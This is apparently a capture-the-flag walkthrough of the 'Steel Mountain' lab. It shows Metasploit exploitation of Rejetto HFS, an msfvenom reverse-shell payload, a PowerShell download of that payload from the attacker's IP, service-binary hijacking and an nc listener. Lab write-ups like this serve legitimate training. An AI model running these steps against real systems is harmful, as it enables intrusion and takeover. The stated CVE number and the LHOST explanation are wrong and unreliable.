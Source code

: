 # Steel Mountain

Directly starting from Task_2.

#### Question:Scan the machine with nmap. What is the other port running a web server on?

#### Solution:

#### Enumeration Part

Run the following nmap command in order to scan the target machine.

```bash 
sudo nmap -sS --top-ports 200 10.10.139.106
```
![Alt text](../Screenshots/Steel_Mountain/nmap_output.png)

We can see that http-proxy is running on port 8080. So,
#### Answer: 8080

#### Question: Take a look at the other web server. What file server is running?
#### Solution:
Open the browser and enter the url along with port 8080 to see is there anything or not, 
I shown up a web page. Where there was a link for http file server as shown in the screenshot

![Alt text](../Screenshots/Steel_Mountain/file_server_link.png)

As I clicked, I shown up a page:
![Alt text](../Screenshots/Steel_Mountain/service_running.png)

#### Answer: Rejetto http file server

#### Question:What is the CVE number to exploit this file server?
#### Solution: 
I searched about it's vulnerabilities on google and found the correct cve number.
#### Answer: 2024-6287

#### Question: Use Metasploit to get an initial shell. What is the user flag?
#### Solution:
I opened metasplout using command:
`msfconsole`

Then I searched for hfs keyword using command:
`search hfs`

It showd me followind output:
![Alt text](../Screenshots/Steel_Mountain/metasploit_exploits.png)

Then I selected 4th exploit and then set it's values:
Conventionally, LHOST and LPORT means the attackers machine's informationa and LHSOT and LPORT means target's information. I filled that information and ran the exploit. See the output:
![Alt text](../Screenshots/Steel_Mountain/meterpreter.png)

Now, I changed my directory to `c:\Users\bill\Desktop\` and read the content of user.txt:
![Alt text](../Screenshots/Steel_Mountain/user_flag.png)

#### Privilege Escalation:
Now, We need to upload a PowerUp.ps1 file to target machine. For that purpose, download it via the given link and then use the command below to transfer the file to target machine:
```bash
upload /path/to/PowerUp.ps1
```
This path is the path of the script in your attacker machine.
![Alt text](../Screenshots/Steel_Mountain/upload_powerup.png)

Now, in meterpreter, hit the command:
```
shell
```
Then go to the path where Powerup.ps1 script is present and enter the followind command:
```
powershell -c ". .\PowerUp.ps1; Invoke-AllChecks"
```
Above command will shown up the service that can be exploited, a part of it is shown below:

![Alt text](../Screenshots/Steel_Mountain/script_output.png)

Now, I am going to replace the actual file with our maclicious file (payload), so when service will start, instead of running legitimate exe file, it will run maclicious file and we will get the root shell.

#### Creating paylod

using msfconsole, we can make our payload:
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.25.176 LPORT=4443 -f exe -o Advanced.exe
```
Now inside the shell of target machine, run the followind command to copy the payload from attacker's machine:
```
powershell -NoP -NonI -C "Invoke-WebRequest -Uri 'http://10.8.25.176:8000/Advanced.exe' -OutFile $env:USERPROFILE\\Desktop\\ASCService.exe"
```
Now I copied this payload to the desired path where legitimate exe file was present, I overwrite that with my payload:
`copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare"`
#### Error resolution: 
If you get error while copying it, then first stop the service and then try to copy. Command to stop the service is given ahead.

Now, I stopped the service using the command:
`net stop AdvancedSystemCareService9`
Now, run the netcat on our attacking machine, I ran with the command:
`nc -lvnp 4443`

Now, start the service using the command:
`net start AdvancedSystemCareService9`

Boom! We've got the root shell at our attacking machine.
![Alt text](../Screenshots/Steel_Mountain/root_shell.png)

Now, to get the flag, move the path "C:\Users\Administrator\Desktop", and run following command:
`type root.txt`
Here's the flag!.

![Alt text](../Screenshots/Steel_Mountain/root_flag.png)

